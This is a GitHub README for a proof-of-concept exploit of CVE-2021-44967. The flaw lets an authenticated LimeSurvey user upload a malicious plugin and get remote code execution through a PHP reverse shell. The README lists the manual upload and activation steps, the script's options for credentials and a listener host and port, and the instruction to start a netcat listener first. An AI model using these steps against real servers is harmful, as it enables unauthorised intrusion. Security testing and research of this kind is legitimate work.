

# CVE-2021-44967

This repository contains a POC (Proof of Concept) of the CVE-2021-44967 vulnerability, which affects to LimeSurvey 5.2 and higher versions. It allows an authenticated user to upload its own malicious plugins, leading to a RCE (Remote Code Execution) through PHP code execution. This exploit uses a PHP reverse shell which is triggered once the malicious plugin is uploaded.

# Explanation

This vulnerability consists on creating a XML config file, a PHP file and then compressing them into a ZIP file. Once you have uploaded, installed and activated the plugin, the PHP code should be accessible on the web. It can be exploited manually following this steps:

1. Create a ZIP containing the PHP file and the config file
2. Login into LimeSurvey
3. Go to Configuration -> Plugins -> Upload & Install
4. Upload your ZIP file
5. Install it
6. Finally, activate your plugin
7. Then your PHP code should be accessible under /upload/plugins/<plugin_name>/<php_file>

# Usage

```
usage: exploit.py [-h] --url URL --user USER --password PASSWORD --lhost LHOST --lport LPORT [--verbose]

LimeSurvey - RCE

options:
  -h, --help           show this help message and exit
  --url URL            URL of the LimeSurvey web root
  --user USER          username to log in
  --password PASSWORD  password of the username
  --lhost LHOST        local host to receive the reverse shell
  --lport LPORT        local port to receive the reverse shell
  --verbose            enable verbose
```

Start a netcat listener and then execute the exploit like this:

```
python3 --url <URL> --user <username> --password <password> --lhost <local host> --lport <local port>
```

# Demo



# References

```
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
https://www.exploit-db.com/exploits/50573
https://github.com/p0dalirius/LimeSurvey-webshell-plugin
https://ine.com/blog/cve-2021-44967-limesurvey-rce
https://pentest-tools.com/vulnerabilities-exploits/limesurvey-524-rce-vulnerability_13029
```

# License

This project is under [MIT](https://github.com/D3Ext/LimeSurvey-RCE/blob/main/LICENSE) license

Copyright © 2025, *D3Ext*

